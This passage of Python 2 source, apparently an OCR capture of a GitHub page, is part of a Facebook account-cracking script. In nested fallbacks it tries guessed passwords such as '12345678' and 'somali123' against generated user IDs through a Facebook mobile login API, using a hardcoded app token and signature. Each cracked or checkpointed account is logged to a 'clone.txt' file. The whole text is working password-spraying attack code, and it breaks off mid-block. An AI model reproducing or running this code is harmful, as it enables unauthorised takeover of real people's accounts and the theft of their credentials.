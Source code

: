                     q = json.load(data)
                    if 'access_token' in q:
                        print '\x1b[1;92m[Sucsesfully]  ' + k + c + user + '  \x1b[1;97m|  ' + pass3
                        okb = open('anggaxd/clone.txt', 'a')
                        okb.write(k + c + user + pass3 + '\n')
                        okb.close()
                        oks.append(c + user + pass3)
                    elif 'www.facebook.com' in q['error_msg']:
                        print '\x1b[1;93m[Checkpoint] \x1b[1;97m' + k + c + user + '  \x1b[1;97m|  ' + pass3
                        cps = open('anggaxd/clone.txt', 'a')
                        cps.write(k + c + user + pass3 + '\n')
                        cps.close()
                        cpb.append(c + user + pass3)
                    else:
                        pass4 = '1234512345'
                        data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass4 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                        q = json.load(data)
                        if 'access_token' in q:
                            print '\x1b[1;92m[Sucsesfully]  ' + k + c + user + '  \x1b[1;97m|  ' + pass4
                            okb = open('anggaxd/clone.txt', 'a')
                            okb.write(k + c + user + pass4 + '\n')
                            okb.close()
                            oks.append(c + user + pass4)
                        elif 'www.facebook.com' in q['error_msg']:
                            print '\x1b[1;93m[Checkpoint] \x1b[1;97m' + k + c + user + '  \x1b[1;97m|  ' + pass4
                            cps = open('anggaxd/clone.txt', 'a')
                            cps.write(k + c + user + pass4 + '\n')
                            cps.close()
                            cpb.append(c + user + pass4)
                        else:
                            pass5 = '12345678'
                            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass5 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                            q = json.load(data)
                            if 'access_token' in q:
                                print '\x1b[1;92m[Sucsesfully]  ' + k + c + user + '  \x1b[1;97m|  ' + pass5
                                okb = open('anggaxd/clone.txt', 'a')
                                okb.write(k + c + user + pass5 + '\n')
                                okb.close()
                                oks.append(c + user + pass5)
                            elif 'www.facebook.com' in q['error_msg']:
                                print '\x1b[1;93m[Checkpoint] \x1b[1;97m' + k + c + user + '  \x1b[1;97m|  ' + pass5
                                cps = open('anggaxd/clone.txt', 'a')
                                cps.write(k + c + user + pass5 + '\n')
                                cps.close()
                                cpb.append(c + user + pass5)
                            else:
                                pass6 = 'somali123'
                                data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass6 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                                q = json.load(data)
                                if 'access_token' in q:
                                    print '\x1b[1;92m[Sucsesfully]  ' + k + c + user + '  \x1b[1;97m|  ' + pass6
                                    okb = open('anggaxd/clone.txt', 'a')
                                    okb.write(k + c + user + pass6 + '\n')
                                    okb.close()
                                    oks.append(c + user + pass6)
                                elif 'www.facebook.com' in q['error_msg']:
                                    print '\x1b[1;93m[Checkpoint] \x1b[1;97m' + k + c + user + '  \x1b[1;97m|  ' + pass6
                                    cps = open('anggaxd/clone.txt', 'a')